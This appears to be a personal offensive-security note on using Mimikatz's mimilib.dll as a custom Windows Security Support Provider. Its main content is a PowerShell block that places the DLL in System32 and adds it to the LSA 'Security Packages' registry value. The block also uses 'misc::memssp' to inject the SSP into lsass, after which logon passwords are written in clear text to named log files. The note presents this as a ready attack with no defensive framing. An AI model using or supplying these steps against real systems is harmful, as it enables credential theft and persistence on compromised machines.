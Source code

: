#mimikatz #powershell 
- Injecting our own SSP for programs to use.
- Mimikatz has it's own `mimilib.dll` SSP. This SSP logs local logons, service account and machine account password in clear text on the target server.
- `mimilib.dll` should be present in the system32 directory on the target system, and add mimilib to the `HKLM\SYSTEM\CurrentControlSet\Control\LSA\Security Packages`
```powershell
# move mimilib to system32
Move-Item mimilib.dll C:\Windows\System32

# Get Current value of "Security Packages"
$packages = Get-ItemProperty "HKML:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages';

# append mimilib to packages variable
$packages += "mimilib"

# Reset the registry key
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages
# Reboot
# After reboot all logons are logged to C:\Windows\System32\[kiwissp.log|mimilsa.log]

# Mimikatz can be used to load mimilib in lsass
misc::memssp
```
